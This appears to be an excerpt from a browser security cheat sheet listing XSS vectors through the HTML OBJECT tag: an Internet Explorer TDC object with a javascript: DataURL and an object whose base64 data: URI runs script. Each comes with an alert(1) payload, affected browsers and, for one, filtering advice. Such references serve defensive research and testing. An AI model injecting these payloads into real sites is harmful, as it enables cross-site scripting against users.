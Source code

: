 *   internet explorer 6.0

*   internet explorer latest (in older docmodes)

*   xss

*   javascript
*   opera
*   for
*   event
*   internet explorer

reporter：.mario

### JavaScript execution via <OBJECT> DataURL attribute#49test

Internet Explorer 9 and - in some situations - earlier versions support the use of JavaScript URIs for the "dataurl" attribute of a TDC Object. The JavaScript will be executed without user any interaction.

```
<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> 
```

*   internet explorer 6.0
*   internet explorer 9.0

*   xss

*   javascript
*   internet explorer
*   object
*   dataurl
*   TDC

*   [`msdn.microsoft.com/en-us/library/ms531356%28v=VS.85%29.aspx#Understanding_the_TDC_Object_Model`](http://msdn.microsoft.com/en-us/library/ms531356%28v=VS.85%29.aspx#Understanding_the_TDC_Object_Model)

reporter：.mario

### JavaScript execution via <OBJECT> data#50test

Almost all browsers supporting data URIs allow executing JavaScript via crafted <OBJECT> "data" attribute value - even if base64 encoded. Note however, that different browsers execute the JavaScript on different origins. Firefox for instance will execute on the hosting domain and thus allow XSS, while Chrome will execute on about:blank.

```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object> 
```

Make sure user submitted HTML cannot contain <OBJECT> tags or only whitelisted <OBJECT> "data" values.

*   opera 8.x
*   opera latest
